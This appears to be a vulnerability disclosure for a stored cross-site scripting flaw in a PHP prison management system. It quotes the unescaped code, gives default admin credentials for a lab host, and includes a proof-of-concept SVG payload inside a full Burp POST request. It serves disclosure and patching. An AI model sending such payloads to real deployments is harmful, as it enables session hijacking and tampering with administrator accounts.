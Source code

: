 # Prison Management System
## XSS on `/Admin/add-admin.php`

### Vendor Homepage:

```
https://www.sourcecodester.com/sql/17287/prison-management-system.html
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/Admin/login.php
admin
admin123
```

### Affected Page:

```
/Admin/add-admin.php、/Admin/user-record.php
```

The parameter  `txtfullname` are being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

```php
# /Admin/add-admin.php
13 $name = $_POST['txtfullname'];
41 $sql = 'INSERT INTO users(username,password,phone,fullname,photo) VALUES(:username,:password,:phone,:fullname,:photo)';
42 $statement = $dbh->prepare($sql);
43 $statement->execute([
44 	':username' => $username,
45	':password' => $password,
46  ':phone' => $phone,
47	':fullname' => $name,
48	':photo' => $location
49 ]);
```

```php
# /Admin/user-record.php
232 <td><div align="center" class="style2"><?php echo $row['fullname'];  ?></div></td>
```

### Proof of Concept:

Payload:

```
<svg/onload=alert`123`>
```

Burp Request:

```
POST /Admin/add-admin.php HTTP/1.1
Host: 192.168.150.131
Content-Length: 695
Cache-Control: max-age=0
Origin: http://192.168.150.131
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryLj0CY8yOCmVxA8zf
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/Admin/add-admin.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=6lvd6ov74di62etmpiketusjoj
Connection: close

------WebKitFormBoundaryLj0CY8yOCmVxA8zf
Content-Disposition: form-data; name="txtusername"

1
------WebKitFormBoundaryLj0CY8yOCmVxA8zf
Content-Disposition: form-data; name="txtfullname"

<svg/onload=alert`123`>
------WebKitFormBoundaryLj0CY8yOCmVxA8zf
Content-Disposition: form-data; name="txtpassword"

2
------WebKitFormBoundaryLj0CY8yOCmVxA8zf
Content-Disposition: form-data; name="txtphone"

3
------WebKitFormBoundaryLj0CY8yOCmVxA8zf
Content-Disposition: form-data; name="avatar"; filename="1.jpg"
Content-Type: image/jpeg

123
------WebKitFormBoundaryLj0CY8yOCmVxA8zf
Content-Disposition: form-data; name="btncreate"


------WebKitFormBoundaryLj0CY8yOCmVxA8zf--
```



### Screenshot

![image-20240505212433702](./screenshot/image-20240505212433702.png)

